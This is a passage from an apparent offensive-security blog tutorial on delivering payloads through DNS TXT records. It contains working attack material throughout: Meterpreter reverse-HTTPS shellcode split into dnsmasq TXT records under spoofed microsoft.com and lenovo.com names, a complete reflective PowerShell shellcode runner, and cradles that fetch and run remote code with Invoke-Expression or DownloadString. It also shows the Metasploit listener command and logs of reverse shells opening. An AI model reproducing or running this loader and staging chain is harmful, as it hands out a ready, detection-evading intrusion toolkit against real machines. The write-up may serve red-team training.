53,0x49,0xba,0x57,0x89,0x9f,0xc6,0x0,0x0,0x0,0x0,0xff,0xd5,0xe8,0x1f,0x0,0x0,0x0,0x2f,0x57,0x30,0x37,0x34,0x69,0x4e,0x45,0x31,0x70,0x48,0x56,0x69,0x75,0x57,0x4f,0x37,0x41,0x62,0x63,0x6e,0x34,0x51,0x75,0x77,0x69,0x34,0x52,0x49,0x57,0x0,0x48,0x89,0xc1,0x53,0x5a,0x41,0x58,0x4d,0x31,0xc9,0x53,0x48,0xb8,0x0,0x32,0xa8,0x84,0x0,0x0,0x0,0x0,0x50,0x53,0x53,0x49,0xc7,0xc2,0xeb,0x55,0x2e,0x3b,0xff,0xd5,0x48,0x89,0xc6,0x6a,0xa,0x5f,0x48,0x89,0xf1,0x6a,0x1f,0x5a,0x52,0x68,0x80,0x33,0x0,0x0,0x49,0x89,0xe0,0x6a,0x4,0x41,0x59,0x49,0xba,0x75,0x46,0x9e,0x86,0x0,0x0,0x0,0x0,0xff,0xd5,0x4d,0x31,0xc0,0x53,0x5a,0x48,0x89,0xf1,0x4d,0x31,0xc9,0x4d,0x31,0xc9,0x53,0x53,0x49,0xc7,0xc2,0x2d,0x6,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x75,0x1f,0x48,0xc7,0xc1,0x88,0x13,0x0,0x0,0x49,0xba,0x44,0xf0,0x35,0xe0,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0xff,0xcf,0x74,0x2,0xeb,0xaa,0xe8,0x55,0x0,0x0,0x0,0x53,0x59,0x6a,0x40,0x5a,0x49,0x89,0xd1,0xc1,0xe2,0x10,0x49,0xc7,0xc0,0x0,0x10,0x0,0x0,0x49,0xba,0x58,0xa4,0x53,0xe5,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0x93,0x53,0x53,0x48,0x89,0xe7,0x48,0x89,0xf1,0x48,0x89,0xda,0x49,0xc7,0xc0,0x0,0x20,0x0,0x0,0x49,0x89,0xf9,0x49,0xba,0x12,0x96,0x89,0xe2,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0x83,0xc4,0x20,0x85,0xc0,0x74,0xb2,0x66,0x8b,0x7,0x48,0x1,0xc3,0x85,0xc0,0x75,0xd2,0x58,0xc3,0x58,0x6a,0x0,0x59,0xbb,0xe0,0x1d,0x2a,0xa,0x41,0x89,0xda,0xff,0xd5'
PS C:\> Format-StringToTxtRecord -String $String -Name microsoft.com -Characters 255

txt-record=1.microsoft.com,"0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x48,0x31,0xd2,0x51,0x56,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x4d,0x31,0xc9,0x48,0xf,0xb7,0x4a,0x4a,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c"
txt-record=2.microsoft.com,",0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x66,0x81,0x78,0x18,0xb,0x2,0xf,0x85,0x72,0x0,0x0,0x0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x8b,0x48,0x1"
txt-record=3.microsoft.com,"8,0x50,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x4d,0x31,0xc9,0x48,0x1,0xd6,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40"
txt-record=4.microsoft.com,",0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9"
txt-record=5.microsoft.com,",0x4b,0xff,0xff,0xff,0x5d,0x48,0x31,0xdb,0x53,0x49,0xbe,0x77,0x69,0x6e,0x69,0x6e,0x65,0x74,0x0,0x41,0x56,0x48,0x89,0xe1,0x49,0xc7,0xc2,0x4c,0x77,0x26,0x7,0xff,0xd5,0x53,0x53,0x48,0x89,0xe1,0x53,0x5a,0x4d,0x31,0xc0,0x4d,0x31,0xc9,0x53,0x53,0x49,0xba,0x3a,0"
txt-record=6.microsoft.com,"x56,0x79,0xa7,0x0,0x0,0x0,0x0,0xff,0xd5,0xe8,0xd,0x0,0x0,0x0,0x31,0x39,0x32,0x2e,0x31,0x36,0x38,0x2e,0x30,0x2e,0x32,0x31,0x0,0x5a,0x48,0x89,0xc1,0x49,0xc7,0xc0,0xbb,0x1,0x0,0x0,0x4d,0x31,0xc9,0x53,0x53,0x6a,0x3,0x53,0x49,0xba,0x57,0x89,0x9f,0xc6,0x0,0x0,0"
txt-record=7.microsoft.com,"x0,0x0,0xff,0xd5,0xe8,0x1f,0x0,0x0,0x0,0x2f,0x57,0x30,0x37,0x34,0x69,0x4e,0x45,0x31,0x70,0x48,0x56,0x69,0x75,0x57,0x4f,0x37,0x41,0x62,0x63,0x6e,0x34,0x51,0x75,0x77,0x69,0x34,0x52,0x49,0x57,0x0,0x48,0x89,0xc1,0x53,0x5a,0x41,0x58,0x4d,0x31,0xc9,0x53,0x48,0x"
txt-record=8.microsoft.com,"b8,0x0,0x32,0xa8,0x84,0x0,0x0,0x0,0x0,0x50,0x53,0x53,0x49,0xc7,0xc2,0xeb,0x55,0x2e,0x3b,0xff,0xd5,0x48,0x89,0xc6,0x6a,0xa,0x5f,0x48,0x89,0xf1,0x6a,0x1f,0x5a,0x52,0x68,0x80,0x33,0x0,0x0,0x49,0x89,0xe0,0x6a,0x4,0x41,0x59,0x49,0xba,0x75,0x46,0x9e,0x86,0x0,0x"
txt-record=9.microsoft.com,"0,0x0,0x0,0xff,0xd5,0x4d,0x31,0xc0,0x53,0x5a,0x48,0x89,0xf1,0x4d,0x31,0xc9,0x4d,0x31,0xc9,0x53,0x53,0x49,0xc7,0xc2,0x2d,0x6,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x75,0x1f,0x48,0xc7,0xc1,0x88,0x13,0x0,0x0,0x49,0xba,0x44,0xf0,0x35,0xe0,0x0,0x0,0x0,0x0,0xff,0xd5,0x"
txt-record=10.microsoft.com,"48,0xff,0xcf,0x74,0x2,0xeb,0xaa,0xe8,0x55,0x0,0x0,0x0,0x53,0x59,0x6a,0x40,0x5a,0x49,0x89,0xd1,0xc1,0xe2,0x10,0x49,0xc7,0xc0,0x0,0x10,0x0,0x0,0x49,0xba,0x58,0xa4,0x53,0xe5,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0x93,0x53,0x53,0x48,0x89,0xe7,0x48,0x89,0xf1,0x48,0x8"
txt-record=11.microsoft.com,"9,0xda,0x49,0xc7,0xc0,0x0,0x20,0x0,0x0,0x49,0x89,0xf9,0x49,0xba,0x12,0x96,0x89,0xe2,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0x83,0xc4,0x20,0x85,0xc0,0x74,0xb2,0x66,0x8b,0x7,0x48,0x1,0xc3,0x85,0xc0,0x75,0xd2,0x58,0xc3,0x58,0x6a,0x0,0x59,0xbb,0xe0,0x1d,0x2a,0xa,0x41"
txt-record=12.microsoft.com,",0x89,0xda,0xff,0xd5"
txt-record=microsoft.com,"12"
```

Next we’ll take a look at how we’ll implement this into a shellcode runner. We have to be mindful that when we use these cradles, the resulting payload will be seen as a string. In this situation, our payload needs to be treated as a byte array. To make this conversion, we simply need to retrieve the payload, join the records together, then split them by a comma, which will then be stored in the _$buf_ variable which is casted as a byte array.  

```powershell
[Byte[]]$buf = $((1..$((Resolve-DnsName -Name microsoft.com -Type 'txt' -Server 192.168.0.21 -DnsOnly).Strings) | % {$((Resolve-DnsName -Name $([System.String]$_+'.microsoft.com') -Type txt -Server 192.168.0.21 -DnsOnly).Strings)}) -join '') -split ','
```

Putting this all together, our final payload will look like this:

```powershell
function LookupFunc {
    Param (
        $moduleName, 
        $functionName
    )
    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp = @()
    $assem.GetMethods() | ForEach-Object { If ($_.Name -eq "GetProcAddress") { $tmp += $_ } }
    return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType {
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
        [Parameter(Position = 1)] [Type] $delType = [Void]
    )
    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
    DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')
    $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed')
    return $type.CreateType()
}
$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
[Byte[]]$buf = $((1..$((Resolve-DnsName -Name microsoft.com -Type 'txt' -Server 192.168.0.21 -DnsOnly).Strings) | % {$((Resolve-DnsName -Name $([System.String]$_+'.microsoft.com') -Type txt -Server 192.168.0.21 -DnsOnly).Strings)}) -join '') -split ','
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)
$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0, $lpMem, [IntPtr]::Zero, 0, [IntPtr]::Zero)
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)  
```

To test this payload, we’ll start up our multi/handler listener on our Kali Linux machine.

```
┌──(kali㉿kali)-[~]
└─$ sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST 192.168.0.21; set LPORT 443; set EXITFUNC thread; exploit"
```

After we execute our runner, we'll return to our terminal running Dnsmasq so we can see the DNS requests being processed.

```
┌──(kali㉿kali)-[~]
└─$ sudo dnsmasq -C /etc/dnsmasq.conf -d
dnsmasq: started, version 2.86 cachesize 150
dnsmasq: compile time options: IPv6 GNU-getopt DBus no-UBus i18n IDN2 DHCP DHCPv6 no-Lua TFTP conntrack ipset auth cryptohash DNSSEC loop-detect inotify dumpfile
dnsmasq: warning: no upstream servers configured
dnsmasq: cleared cache
dnsmasq: query[TXT] microsoft.com from 192.168.0.26
dnsmasq: config microsoft.com is <TXT>
dnsmasq: query[TXT] 1.microsoft.com from 192.168.0.26
dnsmasq: config 1.microsoft.com is <TXT>
dnsmasq: query[TXT] 2.microsoft.com from 192.168.0.26
dnsmasq: config 2.microsoft.com is <TXT>
dnsmasq: query[TXT] 3.microsoft.com from 192.168.0.26
dnsmasq: config 3.microsoft.com is <TXT>
dnsmasq: query[TXT] 4.microsoft.com from 192.168.0.26
dnsmasq: config 4.microsoft.com is <TXT>
dnsmasq: query[TXT] 5.microsoft.com from 192.168.0.26
dnsmasq: config 5.microsoft.com is <TXT>
dnsmasq: query[TXT] 6.microsoft.com from 192.168.0.26
dnsmasq: config 6.microsoft.com is <TXT>
dnsmasq: query[TXT] 7.microsoft.com from 192.168.0.26
dnsmasq: config 7.microsoft.com is <TXT>
dnsmasq: query[TXT] 8.microsoft.com from 192.168.0.26
dnsmasq: config 8.microsoft.com is <TXT>
dnsmasq: query[TXT] 9.microsoft.com from 192.168.0.26
dnsmasq: config 9.microsoft.com is <TXT>
dnsmasq: query[TXT] 10.microsoft.com from 192.168.0.26
dnsmasq: config 10.microsoft.com is <TXT>
dnsmasq: query[TXT] 11.microsoft.com from 192.168.0.26
dnsmasq: config 11.microsoft.com is <TXT>
dnsmasq: query[TXT] 12.microsoft.com from 192.168.0.26
dnsmasq: config 12.microsoft.com is <TXT>
```

We'll also see that our listener has successfully established a reverse meterpreter shell.

```
┌──(kali㉿kali)-[~]
└─$ sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST 192.168.0.21; set LPORT 443; set EXITFUNC thread; exploit"
[*] Using configured payload generic/shell_reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_https
LHOST => 192.168.0.21
LPORT => 443
EXITFUNC => thread
[*] Started HTTPS reverse handler on https://192.168.0.21:443
[!] https://192.168.0.21:443 handling request from 192.168.0.26; (UUID: l9few58x) Without a database connected that payload UUID tracking will not work!
[*] https://192.168.0.21:443 handling request from 192.168.0.26; (UUID: l9few58x) Staging x64 payload (201820 bytes) …
[!] https://192.168.0.21:443 handling request from 192.168.0.26; (UUID: l9few58x) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (192.168.0.21:443 -> 127.0.0.1) at 2022-08-30 15:13:36 -0400
meterpreter > 
```

We have successfully used a DNS server on our Kali Linux machine to retrieve shellcode that we executed through the shellcode runner, great work.

### Staged Scripts

One of the more popular methods to download and execute powershell scripts hands down is the _DownloadString_ method from the _System.Net.WebClient_ class, for example, `(New-Object System.Net.WebClient).DownloadString('http://192.168.0.21/run.ps1') | IEX`. This cradle downloads the content of a remote file as a string and passes it directly to `Invoke-Expression` for execution. 

This technique has been very successful and is a concept we can replicate using the techniques we've learned with DNS, but with a little extra work. As we learned from the `Chunked Payloads` section, we need to split any string, or _line_ in this case, that exceeds 255 characters. This is trivial to do, but we have to be careful where our scripts are split without breaking them. 

In order to successfully split a line within a script without breaking the logic, we need to place a backtick _\`_, or word-wrap operator, anywhere within an empty space. Let's put this into perspective a bit with the following command. This command will simply retrieve back the service with the display name of "Windows Time" as follows.

```powershell
PS C:\> Get-Service | Where-Object {$_.DisplayName -eq "Windows Time"}

Status   Name               DisplayName
------   ----               -----------
Running  W32Time            Windows Time
```

We could split this command into two lines by adding the backtick within an available space, and then entering a new line immediately after.

```powershell
PS C:\> Get-Service | Where-Object {$_.DisplayName -eq `
"Windows Time"}

Status   Name               DisplayName                           
------   ----               -----------                           
Running  W32Time            Windows Time                          
```

The problem that you may run into though is that using a backtick isn't entirely forgiving. For example, you could use it in the middle of a string, but you cannot place it in the middle of a command without causing issues.

```powershell
PS C:\> Get-Service | Where-`
Object {$_.DisplayName -eq "Windows Time"}
Where- : The term 'Where-' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
At line:1 char:15
+ Get-Service | Where-`
+               ~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (Where-:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
 
Object : The term 'Object' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
At line:2 char:1
+ Object {$_.DisplayName -eq "Windows Time"}
+ ~~~~~~
    + CategoryInfo          : ObjectNotFound: (Object:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
```

Because of this it would be tricky to automate the process of formatting your code to split long lines safely, but it is still possible. To meet in the middle, we'll use a new helper function, `Find-LongLines`, to identify the lines in our script that are too long. To demonstrate this, we'll use the shellcode runner we utilized earlier and run our helper function against it.

```powershell
PS C:\> Find-LongLines -Path C:\users\administrator\desktop\runner.ps1 -Length 255

[*] Line 27 >> $hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0, $lpMem, [IntPtr]::Zero, 0, [IntPtr]::Zero)
```

After running our helper function, we see that line 27 has been flagged. We'll go back to our script and add a backtick in a free space on this line. Our modified payload now looks like this, paying careful attention to the line containing the _$hThread_ variable.

```powershell
function LookupFunc {
    Param (
        $moduleName, 
        $functionName
    )
    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp = @()
    $assem.GetMethods() | ForEach-Object { If ($_.Name -eq 'GetProcAddress') { $tmp += $_ } }
    return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType {
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
        [Parameter(Position = 1)] [Type] $delType = [Void]
    )
    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
    DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')
    $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed')
    return $type.CreateType()
}

$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
[Byte[]]$buf = $((1..$((Resolve-DnsName -Name microsoft.com -Type 'txt' -Server 192.168.0.21 -DnsOnly).Strings) | % {$((Resolve-DnsName -Name $([System.String]$_+'.microsoft.com') -Type txt -Server 192.168.0.21 -DnsOnly).Strings)}) -join '') -split ','
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)
$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread),`
 (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0, $lpMem, [IntPtr]::Zero, 0, [IntPtr]::Zero)
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF) 
```

We'll save this file and run our helper function against it again to confirm we have no lines containing more than 255 characters. 

```powershell
PS C:\> Find-LongLines -Path C:\users\administrator\desktop\runner.ps1 -Length 255
[*] This script doesn't contain any lines exceeding 255 characters
```

Now that we have fixed the long line, we can now pass our script to another helper function called `Format-ScriptToTxtRecord`, which is similar to `Format-StringToTxtRecord` except it'll take in a script and parse it line-by-line as is and convert it to a TXT record config we can copy into our Dnsmasq config file.

```powershell
PS C:\> Format-ScriptToTxtRecord -Path C:\users\administrator\desktop\runner.ps1 -Name lenovo.com
txt-record=1.lenovo.com,"function LookupFunc {"
txt-record=2.lenovo.com,"    Param ("
txt-record=3.lenovo.com,"        $moduleName, "
txt-record=4.lenovo.com,"        $functionName"
txt-record=5.lenovo.com,"    )"
txt-record=6.lenovo.com,"    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')"
txt-record=7.lenovo.com,"    $tmp = @()"
txt-record=8.lenovo.com,"    $assem.GetMethods() | ForEach-Object { If ($_.Name -eq 'GetProcAddress') { $tmp += $_ } }"
txt-record=9.lenovo.com,"    return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))"
txt-record=10.lenovo.com,"}"
txt-record=11.lenovo.com,""
txt-record=12.lenovo.com,"function getDelegateType {"
txt-record=13.lenovo.com,"    Param ("
txt-record=14.lenovo.com,"        [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,"
txt-record=15.lenovo.com,"        [Parameter(Position = 1)] [Type] $delType = [Void]"
txt-record=16.lenovo.com,"    )"
txt-record=17.lenovo.com,"    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run)."
txt-record=18.lenovo.com,"    DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])"
txt-record=19.lenovo.com,"    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')"
txt-record=20.lenovo.com,"    $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed')"
txt-record=21.lenovo.com,"    return $type.CreateType()"
txt-record=22.lenovo.com,"}"
txt-record=23.lenovo.com,""
txt-record=24.lenovo.com,"$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)"
txt-record=25.lenovo.com,"[Byte[]]$buf = $((1..$((Resolve-DnsName -Name microsoft.com -Type 'txt' -Server 192.168.0.21 -DnsOnly).Strings) | % {$((Resolve-DnsName -Name $([System.String]$_+'.microsoft.com') -Type txt -Server 192.168.0.21 -DnsOnly).Strings)}) -join '') -split ','"
txt-record=26.lenovo.com,"[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)"
txt-record=27.lenovo.com,"$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread),`"
txt-record=28.lenovo.com," (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0, $lpMem, [IntPtr]::Zero, 0, [IntPtr]::Zero)"
txt-record=29.lenovo.com,"[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF) "
txt-record=lenovo.com,"29"
```

Now we'll restart our DNS server, our Metasploit listener and execute the following download cradle to retrieve and execute our shellcode runner. 

```powershell
PS C:\> Invoke-Expression $((1..$((Resolve-DnsName -Name lenovo.com -Type 'txt' -Server 192.168.0.21 -DnsOnly).Strings) | % {$((Resolve-DnsName -Name $([System.String]$_+'.lenovo.com') -Type txt -Server 192.168.0.21 -DnsOnly).Strings)}) | Out-String)
```

Once our command is executed, we see the DNS requests as well as another successful reverse meterpreter shell.



Keep in mind that not only was there a series of DNS lookups to retrieve our script, but our payload includes its own DNS lookup to pull down our shellcode as well as we didn't embed it within our original payload.

### Wrapping Up

In this post we worked through the process of spinning up a DNS server on Kali Linux and learned how we can use TXT records to stage payloads that we can retrieve through DNS lookups. While these methods were relatively straight forward, you can build upon these techniques, adding complexity and obscurity to make it something of your own. Keep your eyes open for an upcoming post, as we'll continue this discussion, except we'll take advantage of PHP to deliver these same payloads with an added twist.
